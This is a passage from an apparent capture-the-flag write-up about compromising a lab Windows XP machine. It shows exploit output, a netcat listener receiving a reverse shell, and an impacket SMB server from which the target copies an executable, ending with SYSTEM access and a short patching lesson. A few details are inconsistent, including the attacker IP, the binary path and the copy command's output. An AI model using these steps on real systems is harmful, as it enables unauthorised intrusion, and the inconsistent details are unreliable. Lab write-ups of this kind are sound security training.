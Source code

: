 
#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
{{< /highlight >}}

And I get a shell:

{{< highlight html >}}
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
{{< /highlight >}}

`Windows XP` doesn't have a `whoami` command. So, how can I know which user am I?

{{< highlight html >}}
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
{{< /highlight >}}

Kali has a `whoami.exe` by default under `/usr/share/windows-resources/binaries`/. I can share the executable with the target machine via SMB:

{{< highlight html >}}
python3 /opt/impacket/examples/smbserver.py whoami /usr/share/windows-binaries/
Impacket v0.9.19 - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{{< /highlight >}}

On the target:

{{< highlight html >}}
C:\WINDOWS\system32>copy \\10.10.14.14\whoami\whoami.exe
NT AUTHORITY\SYSTEM
{{< /highlight >}}

I'm already **SYSTEM**, so there is no need to proceed with privilege escalation!

**Note**: flags are under `C:\Documents and Setting\john` and `C:\Documents and Setting\Administrator`.

## Lessons learned and remediations

- The target system appears to be vulnerable to 2 well known vulnerabilities. The administrator should have patched the system against this well known type of attacks. 
